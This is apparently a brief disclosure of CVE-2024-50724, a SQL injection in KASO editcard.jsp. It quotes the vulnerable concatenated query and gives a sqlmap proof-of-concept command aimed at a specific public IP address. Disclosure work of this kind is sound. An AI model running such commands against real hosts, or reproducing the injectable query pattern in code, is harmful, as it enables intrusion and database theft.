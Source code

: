 # KASO cardcase/editcard.jsp Sql Injection

CVE-ID: CVE-2024-50724
VERSION: v9.0
Exploit Author: hndky




Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://125.69.99.250:8088/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/294134a2-6cda-4215-ad39-becef72da11f)




